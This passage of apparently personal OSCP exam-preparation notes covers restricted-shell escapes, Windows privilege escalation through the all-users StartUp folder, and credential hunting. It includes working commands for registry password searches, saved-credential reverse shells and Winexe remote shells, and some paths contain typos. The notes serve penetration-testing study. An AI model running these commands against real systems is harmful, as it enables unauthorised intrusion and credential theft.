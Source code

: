 https://www.metahackers.pro/breakout-of-restricted-shell/

https://oscpnotes.infosecsanyam.in/My_OSCP_Preparation_Notes--Enumeration--SSH--rbash_shell_esacping.html
```
BASH_CMDS[a]=/bin/sh;a
2
export PATH=$PATH:/bin/
3
export PATH=$PATH:/usr/bin
```
### Post-Exploitation/Situational Awareness
```
Each user can define apps that start whem they first log in, by placing shortcuts to them in a specific directory
Windows also has a startup directory for apps that should start for all users:
	• C:\ProgramData\Microsoft\Windows\Stat Menu\Programs\StatUp
	• If we can create files in this directory we can use our reverse shell executable & escalate privs when an admin logs in

Example, put the reverse shell in the above directory or startup directory for admin
	• Listen for reverse shell on kali
	• Receive reverse shell

Use accesschk to see what users have write access
	• .\acesschk.exe /accepteula -d "C:\ProgramData\Microst\Windows\Start Menu\Programs\StartUp"
	• Files placed here must be shortcuts aka .LNK files 
	• The file below creates a shortcut using virtual basic script which sets the path to the reverse shell
	• 
	• To run it "cscript CreateShortcut.vbs"
	• Next run the listener
	• When the admin logs in again, it will execute the file set in the oLink.TargetPath
![image](https://user-images.githubusercontent.com/32726832/168018223-767f64d1-d3b8-4604-8949-e14c3f34798d.png)

```
### Windows PrivEsc

### Looking for Passwords
```
	• Several features of windows store password insecurely
	• Programs can store them in the registry
		○ Reg query HKLM /f password /t REG_SZ /s
		○ Reg query HKCU /f password /t REG_SZ /s
	• Autologon & putty saved sessions may be found
	• Winexe can be used to spawn a shell from kali machine
		○ Winexe -U 'admin%password' //ip cmd.exe
		○ Winexe -U 'admin%password' --system //ip cmd.exe
	• The following query may find passwords in the key name or the key value 
		○ Reg query HKLM /f password /t REG_SZ /S

	• Find saved creds with winpeas
		○ .\winPEASany.exe quiet cmd windowscreds
		○ Cmdkey /list
	• Send reverse shell with saved creds
		○ Runas /savecred /user:admin C:\PriveEsc\reverse.exe
	• Configuration files
		○ Unattend.xml
	• Recursively search for files in current directory with pass in name or end with the .config extension
		○ Dir /s *pass& == *.config
```